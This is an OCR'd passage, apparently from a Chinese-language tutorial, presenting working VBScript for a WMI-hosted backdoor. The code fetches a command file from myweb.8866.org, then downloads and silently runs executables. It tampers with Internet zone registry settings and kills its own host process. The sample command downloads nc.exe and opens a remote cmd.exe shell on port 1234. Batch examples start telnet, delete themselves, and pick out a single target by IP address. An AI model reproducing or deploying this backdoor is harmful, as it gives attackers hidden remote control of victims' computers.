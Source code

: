 			die
		case "exe" 'exe需进一步分析'
		case else die
	end select
	
	if ubound(cmds)<4 then die ':wscript.echo cmds(1) '（调试用）
	whr.open "GET",cmds(1),true '从指定位置下载exe文件'
	whr.send
	if not whr.waitforresponse(cmds(2)) then die
	if whr.status>299 then die
	path=shl.expandenvironmentstrings(cmds(3))'展开保存路径中的环境变量'
	aso.write whr.responsebody ':wscript.echo path '（调试用）
	aso.savetofile path,2 '保存exe文件'
	aso.close
	shl.run chr(34)&path&""" "&cmds(4),0 '执行exe'
	
	die
	
	sub die
		ie.quit
		shl.regwrite set1,val1,regd '还原Internet域安全设置'
		shl.regwrite set2,val2,regd
		shl.regwrite set3,val3,regd
		for each ps in getobject("winmgmts://./root/cimv2:win32_process").instances_
			if lcase(ps.name)="scrcons.exe" then ps.terminate '自杀'
		next
		'wscript.echo "die": wscript.quit '（调试用）
	end sub

取消调试语句的注释，上面这段核心代码就可以直接运行。
它将试图从myweb.8866.org上获取cmd.txt，根据里面的内容进一步行动。
cmd.txt看起来像这样：

- exe //被执行的文件类型，可以是'vbs、:bat、exe或'wsh
- http://myweb.8866.org/nc.exe //被执行的文件的下载url
- 4000 //下载超时时间，单位毫秒
- %windir%/system32/nc.exe //文件的保存位置，支持环境变量
- -L -p 1234 -e cmd.exe //命令行参数

收到上面这个命令后，脚本将从指定url下载nc.exe，保存到系统目录并运行。

如果第一行的文件类型为'vbs、'wsh或:bat，则把命令文件本身当作脚本或批处理来执行。比如：

	:bat
	net start telnet　　　　　　　　 :启动telnet服务
	del %0　　　　　　　　　　　　　 :自删除

如果只是想让某台主机执行命令，可以这样：

	:bat
	ipconfig | find "123.45.67.89" && net start telnet
	del %0

这样就只有ip地址为123.45.67.89的主机才会启动telnet。

'wsh和'vbs的区别是，前者保存为文件由cscript.exe调用，后者直接在脚本后门“内部”执行。
使用'vbs的好处是不用生成文件，而且可以直接利用后门中已经创建的对象，比如shl，但也因此不能用WScript根对象。
